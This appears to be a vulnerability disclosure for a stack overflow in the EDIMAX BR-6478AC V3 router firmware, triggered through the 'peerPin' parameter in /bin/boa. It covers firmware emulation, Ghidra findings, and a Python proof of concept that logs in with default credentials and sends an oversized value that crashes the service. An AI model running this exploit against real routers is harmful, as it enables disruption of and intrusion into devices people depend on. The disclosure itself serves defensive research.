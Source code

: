 # EDIMAX RCE
**description**: 
a remote-command-execution vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_0044a70c function and peerPin in /bin/boa


## Firmware
**brand**:edimax 

**product**:AC1200 Wave 2 Dual-Band Gigabit Router 

**version**:BR-6478AC V3 1.0.15  

The firmware can be downloaded from this website[1] and using FirmAE to simulate the router environment.   
The command is 
```
sudo ./run.sh -d edimax ../Desktop/FIRWARE/BR-6478AC_v3_1.0.15.bin 
```
The result of the simulation is as follows and the defalut username is **admin** and default is **1234**: 
![alt text](img/login.png)

using ghidra we can know the action is formWsc
![alt text](img/action.png)
and the relate web page is as follows and url of page is http://192.168.2.1/wlwps.htm:
![alt text](img/url.png)


## analyze
Using ghidra we can know that the post parameter "peerPin" will be sprintf as the second input parameter and result the stack overflow
![](img/code_line.png)
![alt text](img/code_line2.png)
The details of the function as follows:

**addr**:0044afd0
**function**: FUN_0044a70c
**parameter**:peerPin


# poc
the poc code as follow,
```
import requests

data={
	'username':'admin',
	'password':1234
}

url='http://192.168.2.1/boafrm/formWsc'
url_login='http://192.168.2.1/boafrm/formLoginSetup'
url_page='http://192.168.2.1/wlwps.htm'

res=requests.post(url=url_login,data=data)
print(res.text)
cookies = res.cookies
print(cookies)
res2=requests.get(url=url_page,cookies=cookies)
print(res2)

data2={
	'submit-url':'%2Fwlwps.htm',
	'save_apply':'Save+%26+Apply',
	'resetUnCfg':'0',
	'targetAPMac':'',
	'targetAPSsid':'',
	'configVxd':'off',
	'resetRptUnCfg':'0',
	'peerRptPin':'',
	'setPIN':'123',
	'peerPin':'8'*400

}

res3=requests.post(url=url,cookies=cookies,data=data2)
print(res3.text)

```
the result of POC is as follows,can find the segmentation fault
![alt text](img/stack_overflow.png)
![](img/after_attack.png)

[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3
